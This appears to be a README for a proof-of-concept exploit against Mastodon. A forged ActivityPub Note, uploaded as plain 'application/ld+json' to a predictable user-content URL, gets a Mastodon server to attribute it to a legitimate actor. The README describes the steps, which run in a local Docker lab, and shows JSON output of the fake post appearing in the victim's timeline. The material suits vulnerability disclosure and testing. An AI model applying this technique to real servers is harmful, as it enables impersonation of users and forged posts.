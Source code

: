 ## Mastodon PoC

The PoC only demonstrates the exploit with a hypothetical remote ActivityPub server where users can upload arbitrary documents to predictable URLs.

In this PoC, the remote server `https://victim.poc.example/` hosts legitimate Activity Streams objects (with the media type of `application/ld+json; profile="https://www.w3.org/ns/activitystreams"`) under `/objects/` directory and user-uploaded documents (with the media type of `application/ld+json` without the `profile` value) under `/user-contents/`.

Then, a supposed threat actor attempts to impersonate a legitimate actor `https://victim.poc.example/objects/@victim.jsonld` by uploading a fake `Note` object `https://victim.poc.example/user-contents/attacker/fake-attribution-note.jsonld` with an `attributedTo` property value of the legitimate actor's URI, and make a Mastodon server `https://observer.poc.example/` fetch the fake `Note`.

The `/mastodon/run.sh` script in this directory runs a Docker Compose project with the Mastodon server and the hypothetical server, and automatically makes some HTTP requests to the Mastodon server to trick it into accepting the fake `Note`.

Usage: `COMPOSE='sudo docker compose' bash run.sh` (`$COMPOSE` defaults to `docker-compose`). You might want to pass `-o xtrace` option to Bash to more closely inspect what's going on.

The script first fetches the legitimate actor object and a legitimate `Note` object of the actor from the hypothetical server, displays their `Content-Type`s (which should be `application/ld+json; profile="https://www.w3.org/ns/activitystreams"`), and make the Mastodon server fetch them, in order to make sure that the setup is working as intended.

It then fetches the fake `Note` document (supposed to have been uploaded by the threat actor beforehand), displays its `Content-Type` (which should be `application/ld+json` without the `profile` value) and trick the Mastodon server into fetching it.

Finally, the script fetches the user timeline of the legitimate actor via the Mastodon server, which would include the fake post if the exploit had worked as intended.

If the exploit works as intended, the script's output should look like so (after a very long output of Docker Compose):

```
Legitimate actor: <https://victim.poc.example/objects/@victim.jsonld>
Checking the content type… Content-Type: application/ld+json; profile="https://www.w3.org/ns/activitystreams"
Looking up via Mastodon…
{"accounts":[{"id":"113515100977338359","username":"victim","acct":"victim@victim.poc.example","display_name":"Attack victim","locked":false,"bot":false,"discoverable":false,"group":false,"created_at":"2015-02-10T00:00:00.000Z","note":"This is a legitimate actor to be the target of the attack in the PoC","url":"https://victim.poc.example/objects/@victim.jsonld","uri":"https://victim.poc.example/objects/@victim.jsonld","avatar":"http://observer.poc.example/avatars/original/missing.png","avatar_static":"http://observer.poc.example/avatars/original/missing.png","header":"http://observer.poc.example/headers/original/missing.png","header_static":"http://observer.poc.example/headers/original/missing.png","followers_count":0,"following_count":0,"statuses_count":1,"last_status_at":null,"emojis":[],"fields":[]}],"statuses":[],"hashtags":[]}

Legitimate note: <https://victim.poc.example/objects/@victim/notes/1.jsonld>
Checking the content type… Content-Type: application/ld+json; profile="https://www.w3.org/ns/activitystreams"
Looking up via Mastodon…
{"accounts":[],"statuses":[{"id":"93295784478436950","created_at":"2015-02-10T15:04:55.000Z","in_reply_to_id":null,"in_reply_to_account_id":null,"sensitive":false,"spoiler_text":"","visibility":"public","language":null,"uri":"https://victim.poc.example/objects/@victim/notes/1.jsonld","url":"https://victim.poc.example/objects/@victim/notes/1.jsonld","replies_count":0,"reblogs_count":0,"favourites_count":0,"edited_at":null,"favourited":false,"reblogged":false,"muted":false,"bookmarked":false,"content":"This is a legitimate note","filtered":[],"reblog":null,"account":{"id":"113515100977338359","username":"victim","acct":"victim@victim.poc.example","display_name":"Attack victim","locked":false,"bot":false,"discoverable":false,"group":false,"created_at":"2015-02-10T00:00:00.000Z","note":"This is a legitimate actor to be the target of the attack in the PoC","url":"https://victim.poc.example/objects/@victim.jsonld","uri":"https://victim.poc.example/objects/@victim.jsonld","avatar":"http://observer.poc.example/avatars/original/missing.png","avatar_static":"http://observer.poc.example/avatars/original/missing.png","header":"http://observer.poc.example/headers/original/missing.png","header_static":"http://observer.poc.example/headers/original/missing.png","followers_count":0,"following_count":0,"statuses_count":2,"last_status_at":"2024-11-20","emojis":[],"fields":[]},"media_attachments":[],"mentions":[],"tags":[],"emojis":[],"card":null,"poll":null}],"hashtags":[]}

Fake note: <https://victim.poc.example/user-contents/attacker/fake-attribution-note.jsonld>
Checking the content type… Content-Type: application/ld+json
Looking up via Mastodon…
{"accounts":[],"statuses":[{"id":"93295784478952880","created_at":"2015-02-10T15:04:55.000Z","in_reply_to_id":null,"in_reply_to_account_id":null,"sensitive":false,"spoiler_text":"","visibility":"public","language":null,"uri":"https://victim.poc.example/user-contents/attacker/fake-attribution-note.jsonld","url":"https://victim.poc.example/user-contents/attacker/fake-attribution-note.jsonld","replies_count":0,"reblogs_count":0,"favourites_count":0,"edited_at":null,"favourited":false,"reblogged":false,"muted":false,"bookmarked":false,"content":"THE NOTE WAS MADE BY AN ATTACKER IMPERSONATING @victim","filtered":[],"reblog":null,"account":{"id":"113515100977338359","username":"victim","acct":"victim@victim.poc.example","display_name":"Attack victim","locked":false,"bot":false,"discoverable":false,"group":false,"created_at":"2015-02-10T00:00:00.000Z","note":"This is a legitimate actor to be the target of the attack in the PoC","url":"https://victim.poc.example/objects/@victim.jsonld","uri":"https://victim.poc.example/objects/@victim.jsonld","avatar":"http://observer.poc.example/avatars/original/missing.png","avatar_static":"http://observer.poc.example/avatars/original/missing.png","header":"http://observer.poc.example/headers/original/missing.png","header_static":"http://observer.poc.example/headers/original/missing.png","followers_count":0,"following_count":0,"statuses_count":3,"last_status_at":"2024-11-20","emojis":[],"fields":[]},"media_attachments":[],"mentions":[],"tags":[],"emojis":[],"card":null,"poll":null}],"hashtags":[]}

Getting the user timeline of the legitimate actor via Mastodon…
[{"id":"93295784478952880","created_at":"2015-02-10T15:04:55.000Z","in_reply_to_id":null,"in_reply_to_account_id":null,"sensitive":false,"spoiler_text":"","visibility":"public","language":null,"uri":"https://victim.poc.example/user-contents/attacker/fake-attribution-note.jsonld","url":"https://victim.poc.example/user-contents/attacker/fake-attribution-note.jsonld","replies_count":0,"reblogs_count":0,"favourites_count":0,"edited_at":null,"content":"THE NOTE WAS MADE BY AN ATTACKER IMPERSONATING @victim","reblog":null,"account":{"id":"113515100977338359","username":"victim","acct":"victim@victim.poc.example","display_name":"Attack victim","locked":false,"bot":false,"discoverable":false,"group":false,"created_at":"2015-02-10T00:00:00.000Z","note":"This is a legitimate actor to be the target of the attack in the PoC","url":"https://victim.poc.example/objects/@victim.jsonld","uri":"https://victim.poc.example/objects/@victim.jsonld","avatar":"http://observer.poc.example/avatars/original/missing.png","avatar_static":"http://observer.poc.example/avatars/original/missing.png","header":"http://observer.poc.example/headers/original/missing.png","header_static":"http://observer.poc.example/headers/original/missing.png","followers_count":0,"following_count":0,"statuses_count":3,"last_status_at":"2024-11-20","emojis":[],"fields":[]},"media_attachments":[],"mentions":[],"tags":[],"emojis":[],"card":null,"poll":null},{"id":"93295784478436950","created_at":"2015-02-10T15:04:55.000Z","in_reply_to_id":null,"in_reply_to_account_id":null,"sensitive":false,"spoiler_text":"","visibility":"public","language":null,"uri":"https://victim.poc.example/objects/@victim/notes/1.jsonld","url":"https://victim.poc.example/objects/@victim/notes/1.jsonld","replies_count":0,"reblogs_count":0,"favourites_count":0,"edited_at":null,"content":"This is a legitimate note","reblog":null,"account":{"id":"113515100977338359","username":"victim","acct":"victim@victim.poc.example","display_name":"Attack victim","locked":false,"bot":false,"discoverable":false,"group":false,"created_at":"2015-02-10T00:00:00.000Z","note":"This is a legitimate actor to be the target of the attack in the PoC","url":"https://victim.poc.example/objects/@victim.jsonld","uri":"https://victim.poc.example/objects/@victim.jsonld","avatar":"http://observer.poc.example/avatars/original/missing.png","avatar_static":"http://observer.poc.example/avatars/original/missing.png","header":"http://observer.poc.example/headers/original/missing.png","header_static":"http://observer.poc.example/headers/original/missing.png","followers_count":0,"following_count":0,"statuses_count":3,"last_status_at":"2024-11-20","emojis":[],"fields":[]},"media_attachments":[],"mentions":[],"tags":[],"emojis":[],"card":null,"poll":null}]
The timeline should contain the fake note if the attack was successful.

The containers are kept running so that you can manually play with them.
Run `docker compose stop` to stop them.
```
